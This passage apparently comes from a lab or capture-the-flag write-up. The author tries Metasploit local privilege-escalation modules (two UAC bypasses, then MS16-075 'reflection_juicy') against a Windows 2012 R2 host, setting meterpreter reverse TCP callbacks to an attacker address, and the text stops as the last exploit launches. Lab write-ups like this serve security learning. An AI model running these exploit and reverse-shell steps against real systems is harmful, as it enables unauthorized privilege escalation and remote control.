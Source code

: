 ```
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 192.168.240.80 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 192.168.240.80 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Post module execution completed
```

I give a try to `exploit/windows/local/bypassuac_dotnet_profiler`.

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/bypassuac_dotnet_profiler
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > set LPORT 6666
LPORT => 6666
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on 10.0.200.2:6666 
[*] UAC is Enabled, checking level...
[-] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
[*] Exploit completed, but no session was created.
```

Hurm no luck. Moving on to `exploit/windows/local/bypassuac_sdclt`.

```
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > use exploit/windows/local/bypassuac_sdclt
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_sdclt) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac_sdclt) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(windows/local/bypassuac_sdclt) > set LPORT 6666
LPORT => 6666
msf6 exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 10.0.200.2:6666 
[*] UAC is Enabled, checking level...
[-] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
[*] Exploit completed, but no session was created.
```

No luck again. I skipped the other 2 and use `exploit/windows/local/ms16_075_reflection_juicy` because it said juicy?

```
msf6 exploit(windows/local/bypassuac_sdclt) > use exploit/windows/local/ms16_075_reflection_juicy
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set LPORT 6666
LPORT => 6666
msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[*] Started reverse TCP handler on 10.0.200.2:6666 
[+] Target appears to be vulnerable (Windows 2012 R2 (6.3 Build 9600).)
[*] Launching notepad to host the exploit...
[+] Process 3056 launched.
```